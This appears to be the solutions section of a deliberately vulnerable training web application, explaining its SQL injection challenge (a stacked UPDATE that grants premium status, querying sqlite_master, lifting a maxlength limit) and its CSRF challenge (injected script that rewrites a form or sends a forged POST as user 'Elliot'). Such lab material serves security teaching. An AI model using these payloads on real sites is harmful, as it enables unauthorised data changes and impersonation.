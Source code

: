 The search field queries the 'users' table of the SQLite database which stores username, password, email, whish list and user status for every entry. The database is filled with a set of fake users and an entry for the corresponding user.

```sql
SELECT username, email, wishlist FROM users WHERE username = '<search>';
```

**Solution**: To solve this challenge the user needs to inject a SQL query that updates the users premium status in the database. An example could look like this:

```sql
'; UPDATE users SET user_status = 'premium' WHERE username = '<user>';--
```

The `';` closes off the original SELECT query. The `--` at the end comments out all remaining parts of the initial query.

**Difficulty**: On hard difficulty the premium status is no longer stored directly in the users table but in a separat table. To find this table, the user needs to query the sqlite_master table.

```sql
'; SELECT * FROM sqlite_master;--
```

Furthermore, the input length for the search field is limited by the HTML attribute `maxlength`. The user has to manually increase this limit to enter SQL statements longer than 10 characters.

```html
<input maxlength="10">
```

### Cross Site Request Forgery

The CSRF challenge is located in the `contact.php` file.

**Challenge**: In this challenge the user should send a support request to the closed contact form. In addition, the request should look like it was send by the fake user 'Elliot'.

**Solution**: This challenge can be solved in three different ways. The easiest option is to manipulate the product comment form on ```product.php``` with the browser inspector to include the same input names as the closed contact form.

The product comment field could also be manipulated with JavaScript:

```html
<script>
var frm = document.getElementById('CSRForm');
frm.action = "contact.php";
document.getElementById('challengeUsername').value="elliot";
document.getElementById('challengePost').name="userPost";
</script>
```

Another way to solve this challenge would be to send an AJAX request via one of the fields that are vulnerable to XSS attacks:

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned");
</script>
```
